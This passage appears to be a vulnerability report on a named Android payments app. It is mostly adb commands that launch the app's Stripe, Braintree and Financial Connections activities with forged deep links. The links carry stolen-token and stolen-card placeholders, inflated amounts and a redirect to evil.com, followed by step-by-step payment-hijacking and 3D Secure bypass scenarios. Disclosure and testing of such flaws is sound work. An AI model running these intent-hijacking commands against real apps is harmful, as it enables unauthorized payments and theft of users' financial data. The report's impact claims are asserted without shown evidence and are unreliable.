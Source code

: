 **Impact**: Malicious apps can directly launch payment flows without user consent.

### 2. **Stripe Intent Hijacking** (2/2 Successful)
```bash
# Stripe Link Handler - VULNERABLE
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen -n fr.mayndrive.app/com.stripe.android.link.LinkRedirectHandlerActivity

# Stripe Browser Proxy - VULNERABLE  
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen -n fr.mayndrive.app/com.stripe.android.payments.StripeBrowserProxyReturnActivity
```

**Impact**: 3D Secure bypass and payment confirmation manipulation.

### 3. **Financial Connections Hijacking** (1/1 Successful)
```bash
# Financial Connections Redirect - VULNERABLE
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen -n fr.mayndrive.app/com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity
```

**Impact**: Bank account information theft and financial data compromise.

### 4. **Deep-Link Hijacking** (3/3 Successful)
```bash
# All deep-links can be hijacked
adb shell am start -a android.intent.action.VIEW -d stripe://malicious-redirect?token=stolen_token&amount=999999
adb shell am start -a android.intent.action.VIEW -d braintree://payment?amount=999999&card=stolen_card
adb shell am start -a android.intent.action.VIEW -d mayndriveappddds://payment?amount=999999&redirect_to=https://evil.com
```

**Impact**: Payment redirection to malicious processors and app flow hijacking.

## 🎯 Real-World Attack Scenarios

### Scenario 1: Payment Flow Hijacking
1. **Malicious app** installs on user's device
2. **Launches** `DropInActivity` directly with forged payment data
3. **Injects** malicious payment amount (e.g., $999,999)
4. **Bypasses** user authentication and payment confirmation
5. **Result**: Direct financial fraud

### Scenario 2: 3D Secure Bypass
1. **Malicious app** hijacks `StripeBrowserProxyReturnActivity`
2. **Injects** fake 3D Secure success response
3. **Bypasses** bank authentication requirements
4. **Completes** unauthorized payment
5. **Result**: 3D Secure authentication bypass
